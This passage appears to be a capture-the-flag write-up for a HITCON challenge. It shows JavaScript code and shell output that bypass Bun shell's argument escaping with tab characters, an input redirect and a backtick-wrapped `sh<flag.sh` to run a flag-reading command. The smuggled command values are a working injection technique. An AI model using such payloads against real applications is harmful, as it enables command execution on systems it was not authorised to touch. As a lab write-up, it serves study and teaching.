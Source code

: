 Apparently I forgot that bun shell escaped spaces, the last time we tried `\t` it didn't work but why not try our luck again?

```js
import { $ } from "bun";

let cmd = "/readflag\tgive\tme\tthe\tflag1<flag.sh"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

FINALLY IT WORKED!

```sh
> bun req.js 
/readflag       give    me      the     flag1<flag.sh

> cat flag.sh
/readflag       give    me      the     flag
```

Now all that is left is enjoy the glory together with `sh`

```js
import { $ } from "bun";

let cmd = "`sh<flag.sh`"
console.log($.escape(cmd));
await $`echo ${cmd}`;
```

We have successfully solved this problem locally .-.

```sh
> bun req.js
`sh<flag.sh`
hitcon{placeholder}
```

Now let's launch our instance and catch the fish!

![](eaas.png)
